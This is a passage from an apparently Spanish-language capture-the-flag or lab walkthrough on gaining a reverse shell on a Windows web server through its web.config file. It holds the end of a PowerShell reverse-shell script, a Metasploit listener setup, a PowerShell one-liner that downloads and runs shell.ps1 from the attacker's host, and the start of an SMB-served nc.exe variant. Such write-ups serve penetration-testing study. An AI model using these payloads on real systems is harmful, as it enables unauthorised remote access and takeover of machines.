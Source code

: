 ```powershell
    $stream.Flush()
} while ($true)

$client.Close()
```

Esto lo guardamos y abriremos `metasploit` pata ponernos a la escucha.

```shell
msfconsole -q
```

Ahora lo configuraremos de la siguiente forma:

```shell
use exploit/multi/handler
set payload windows/powershell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
run
```

Abrimos un servidor de `python3` en nuestro `host` para que obtenga el archivo `shell.ps1` y lo ejecute.

```shell
python3 -m http.server 8000
```

Ahora vamos a la `web.config` y pondremos el siguiente comando:

```powershell
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://<IP>:8000/shell.ps1')"
```

Si vamos a donde tenemos la escucha de `metasploit` veremos lo siguiente:

```
[*] Started reverse TCP handler on 192.168.28.5:7777 
[*] Powershell session session 1 opened (192.168.28.5:7777 -> 192.168.28.4:49160) at 2025-03-20 11:13:00 -0400


PS > whoami
win-4qu3qnhnk7e\info
```

### Opcion 2 (Reverse Shell SMB) `RECOMENDADO!!`

Tambien podemos generarnos una `reverse shell` mediante un `servidor` de `SMB` abierto desde nuestro `host`, para que desde el `web.config` ejecutar un comando para ejecutar un `nc.exe` desde nuestro servidor de `SMB`.

Primero tendremos que copiarnos el ejecutable `nc.exe` a nuestro directorio actual.

```shell
cp /usr/share/windows-binaries/nc.exe .
```
